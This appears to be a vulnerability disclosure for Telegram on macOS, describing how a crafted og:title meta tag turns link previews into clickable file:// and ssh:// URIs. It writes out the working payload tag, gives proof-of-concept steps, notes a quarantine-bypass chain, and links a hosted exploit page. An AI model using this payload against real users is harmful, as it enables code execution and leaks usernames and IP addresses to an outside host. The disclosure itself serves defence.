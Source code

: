 **Summary**

In **Telegram for macOS v4.9.155353** (and below) URL parsing logic in Telegram for macOS platform allows running arbitrary executables and applications URI schemes via links injected into the website's preview.

**PoC**

1. Send a link to `exploit.html` - a regular HTML file with `<meta property="og:title" content="file://google.com/bin/sh ssh://google.com/x" />` tag

2. Website preview renders `file://google.com/bin/sh` and `ssh://google.com/x` as links

3. Click on the rendered links behaves as `NSWorkspace.open` util -> if points to executable -> code execution.

4. Click on `ssh://` link -> Terminal.app popups with an active ssh session disclosing user's OS username, ip and other details.



**Impact**

The bug could be used for:

	1. disclosing info about user's machine -> OS username, IP, etc

	2. running arbitrary executables and opening arbitrary files on OS

	3. launching arbitrary applications via URI schemes


This bug could be chained with Quarantine issue to open downloaded quarantine-ignored files and chain this into running of attacker-supplied executable.

**Additional Details**

This bug also exists in iOS, PoC is the same. 
Impact possibly limited to URI schemes.

PoC URL -> https://telegram-file-link-1xfcjf27f.now.sh/exploit.html
